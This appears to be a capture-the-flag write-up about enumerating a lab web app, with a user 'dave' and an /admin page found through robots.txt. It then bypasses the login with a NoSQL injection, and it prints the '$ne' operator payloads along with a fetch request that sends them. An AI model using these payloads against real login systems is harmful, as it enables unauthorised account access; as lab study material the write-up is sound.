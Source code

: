 ![web page](https://imgur.com/U9dj7tV.png)

There is a user called "dave". It's worth mentioning that he is probably using NoSQL:

<pre>"I decided to build it with a NoSQL database"</pre>

Nmap identified "robots.txt" so let's check that out:

<pre>User-Agent: *
Disallow: /admin</pre>

Let's check out /admin page:

![/admin](https://imgur.com/XPw4brO.png)

I checked out port 3000 but it seems it is the same web page.

Look at the source code for /admin:

<pre>    if(document.location.hash) {
      const div = document.createElement('div')
      div.innerText = decodeURIComponent(document.location.hash.substr(1));
      div.className = 'note';
      document.body.insertBefore(div, document.body.firstChild);
    }
    document.querySelector('form').onsubmit = (e) => {
      /*e.preventDefault();
      const username = document.querySelector('input[type=text]').value;
      const password = document.querySelector('input[type=password]').value;

      fetch('', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify({username, password})
      }).then(() => {
        location.reload();
      })
      return false;*/
    }</pre>
    
There is mention of 'Content-Type': 'application/json' so we can prepare a noSQL payload. I found this Github repo:

[NoSQL Injection - Github](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

Authentication Bypass:

<pre>in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}</pre>

I copied the "fetch" block of the commented code we found in the source code and replaced the "username,password" to the payload. This is what my payload looks like:

<pre>fetch('', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
    },
    body: JSON.stringify(
        {"username":"dave", "password":{"$ne": ""}}
    )
}).then(() => {
    location.reload();
})</pre>
